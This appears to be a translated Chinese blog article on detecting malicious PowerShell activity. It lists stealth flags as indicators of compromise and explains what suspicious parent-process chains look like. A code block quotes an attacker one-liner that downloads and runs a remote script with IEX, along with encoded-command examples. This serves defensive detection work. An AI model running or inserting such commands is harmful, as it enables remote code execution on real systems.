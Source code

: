 

攻击者会使用PowerShell中提供的各种选项，尽可能隐藏自己的操作痕迹。以下标志经常在实际攻击活动中出现，我们可以利用这些标志来梳理出一份IOC（Indicators of Compromise，攻击指示器）清单：

1、**–WindowStyle hidden / -w hidden**：对用户隐藏PowerShell程序窗口，以隐藏操作痕迹。

2、**–Exec Bypass**：用来绕过或者忽略类似**Restricted**的执行限制策略，这些策略会阻止PowerShell脚本运行。

3、**–Command / -c**：从PowerShell终端中执行任意命令。

4、**–EncodedCommand / -e / -Enc**：在命令行中，将经过编码的参数传递给PowerShell加以执行。

5、**–Nop / -Noprofile**：忽略配置（Profile）文件中的命令。

你可以在前面列举的几个例子中查找这些标志，理解“**-nop -Exec Bypass –Command**”标志的用法。

实际环境中，攻击者会使用各种标志开展攻击活动，某些例子如下所示：



```
C:WINDOWSsystem32cmd.exe /c powershell.exe -nop -w hidden -c IEX (new-object net.webclient).downloadstring('http://****.com/Updates')
PowersHell –e  &lt;encoded input&gt;
Powershell – Enc &lt;encoded input&gt;
```

**<br>**

**四、IoC**



接下来，我们来看看实际环境中，哪些攻击指示器（IoC）可以用来检测可疑的PowerShell活动。

**4.1 观察PowerShell进程的层级关系**

通常情况下，当我们从Windows开始菜单或者从磁盘中运行PowerShell时，PowerShell进程会作为`explorer.exe`的子进程来运行：你可以使用[Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)或者[Process Hacker](http://processhacker.sourceforge.net/downloads.php)工具来观察进程的父子层级关系。[![](https://p2.ssl.qhimg.com/t01a42eb0d8e6abd673.gif)](https://p2.ssl.qhimg.com/t01a42eb0d8e6abd673.gif)

[![](https://p3.ssl.qhimg.com/t0165a7e561631e5d9c.png)](https://p3.ssl.qhimg.com/t0165a7e561631e5d9c.png)

如上图所示，`Explorer.exe`为`Powershell.exe`的父进程。

大多数情况下，在PowerShell攻击活动中，攻击者会通过命令行进程来运行PowerShell脚本或命令，此时，我们通常可以观察到PowerShell进程的父进程为`cmd.exe`，这在实际攻击活动中非常常见。[![](https://p2.ssl.qhimg.com/t01a42eb0d8e6abd673.gif)](https://p2.ssl.qhimg.com/t01a42eb0d8e6abd673.gif)

[![](https://p1.ssl.qhimg.com/t01520611eec2caa1fe.png)](https://p1.ssl.qhimg.com/t01520611eec2caa1fe.png)

然而，在某些合法场景中，PowerShell进程的父进程也是`cmd.exe`，比如管理员有时候希望运行某些PowerShell脚本，然后他会通过命令提示符（`cmd.exe`）来启动PowerShell。

“因此，查看祖父进程也是非常重要的一件事情，你可以查看是哪个进程启动了`cmd.exe`，这个信息可以帮助你分析这种场景是否属于攻击活动的一部分。”

因此，如果祖父进程为`winword.exe`、`winword.exe`或者`wuapp.exe`，这种情况表明，某个脚本启动了`cmd.exe`，我们需要好好研究一下这是个什么脚本。

“在某些情况下，我们可以观察到PowerShell进程由`windword.exe`直接启动运行，这是可疑活动的明显标志，我们需要记录下这类活动并加以分析。”
